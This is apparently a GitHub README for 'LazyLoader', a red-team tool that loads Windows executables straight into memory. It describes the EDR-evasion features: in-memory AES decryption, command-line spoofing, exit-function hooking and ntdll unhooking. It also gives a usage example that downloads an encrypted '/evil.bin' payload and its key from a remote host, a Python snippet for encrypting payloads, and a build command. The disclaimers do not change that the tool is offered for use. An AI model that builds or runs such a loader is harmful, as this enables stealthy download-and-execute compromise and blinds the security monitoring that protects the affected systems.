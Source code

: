 # 🦎 LazyLoader — Stealthy Reflective PE Loader for Windows ᘛ⁐̤ᕐᐷ

<img width="1024" height="1024" alt="image" src="https://github.com/user-attachments/assets/f4cc6e4e-65fc-44f9-b2f8-3228e3876d06" />


Disclaimer: This tool is intended for educational purposes and authorized red team operations only. Do not use on systems you do not own or have explicit permission to test. 

## 🧩 Overview
LazyLoader is a sophisticated, in-memory Windows PE (Portable Executable) loader that:

- Downloads an AES-256 encrypted PE file and its decryption key from a remote HTTP server.
- Decrypts the payload in memory using Windows CryptoAPI.
- Reflectively maps and relocates the PE into the current process.
- Repairs the Import Address Table (IAT) with optional API hooking to spoof command-line arguments and prevent process exit.
- Executes the payload in a new thread.
- Optionally unhooks ntdll.dll by restoring its .text section from a clean process (e.g., notepad.exe) to evade EDR/userland hooks.
- Designed for stealth, LazyLoader leaves no trace on disk and hides its execution context from command-line inspection tools.

## ⚙️ Features
- ✅ Remote Payload Fetching
Uses WinHTTP to securely download encrypted PE and key files from a remote server.

## ✅ AES-256 Decryption
- Leverages Windows CryptAcquireContext, CryptCreateHash, and CryptDecrypt for secure in-memory decryption.

## ✅ Reflective PE Loading

- Parses PE headers and sections.
- Allocates memory at preferred or relocated base.
- Copies headers and sections.
- Repairs IAT with dynamic GetProcAddress.

## ✅ Command-Line Masquerading
Spoofs:

- GetCommandLineA/W
- __p___argv
- __p___wargv
- __p___argc
- __getmainargs
- __wgetmainargs

Prevents detection via process argument inspection.

- ✅ **Exit Function Hooking**
Hooks exit, _exit, ExitProcess, etc., to redirect termination to ExitThread(0) — keeping the host process alive.

- ✅ **EDR Evasion via NTDLL Unhooking**
Optionally spawns a suspended notepad.exe, reads clean ntdll.dll from its memory, and restores hooked .text sections in the current process.

- ✅ **No Disk Artifacts**
Everything runs in memory — no temporary files written.

## 🚀 Usage
```cmd
LazyLoader.exe <Host> <Port> <EncryptedPEPath> <KeyPath>
```
### Example
```cmd
LazyLoader.exe 192.168.1.100 8080 /evil.bin /key.bin
```
### This will:

- Connect to http://192.168.1.100:8080/evil.bin and download the encrypted payload.
- Download the key from http://192.168.1.100:8080/key.bin.
- Decrypt the payload using AES-256.
- Spoof command-line to appear as "whatEver".
- Load and execute the PE reflectively.

## 🔐 Encryption Requirements
The payload must be encrypted with AES-256 in ECB mode (or compatible with Windows CryptDecrypt defaults).

Example Python encryption snippet:

```python
from Crypto.Cipher import AES
import hashlib

key = b"your-32-byte-key-here-------------"  # Must be 32 bytes
data = open("payload.bin", "rb").read()
cipher = AES.new(key, AES.MODE_ECB)
encrypted = cipher.encrypt(data.ljust((len(data) // 16 + 1) * 16, b'\x00'))  # PKCS#7-style padding

with open("evil.bin", "wb") as f:
    f.write(encrypted)
```
🔍 Note: LazyLoader uses SHA-256 to hash the key file contents before deriving the AES key — ensure your encryption matches this behavior. 

## 🧪 Compilation
Requirements
x86_64-w64-mingw32-gcc
Libraries: WinHttp, Crypt32, Psapi
Build with x86_64-w64-mingw32-gcc
cmd

x86_64-w64-mingw32-gcc -o loader.exe main.c -lwinhttp -lcrypt32 -lpsapi 

## 🛡️ Detection Evasion Techniques

### LoadLibrary
— avoids module enumeration.
IAT Repair + Hooking
Spoofs command-line and argv to hide true intent.
Exit Hooking
Redirects
ExitProcess
to
ExitThread
— host process stays alive.
NTDLL Unhooking
Restores clean
.text
from external process — defeats userland hooks.
No Disk Writes
Entire execution is memory-resident.

## 📜 License GPLv3
Educational & Red Team Use Only. Not for malicious exploitation.

## 📬 Contact / Contribution
For bugs, suggestions, or contributions — open an issue or submit a PR.

Author: grisun0 - LazyOwn RedTeam
Version: release/v0.0.1
Year: 2025 

## ⚠️ Legal Notice
This software is for authorized penetration testing and research purposes only. Misuse of this tool can result in criminal prosecution. The author(s) assume no liability and are not responsible for any misuse or damage caused by this program.

✅ Stay LazyOwn. Stay Stealthy.

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
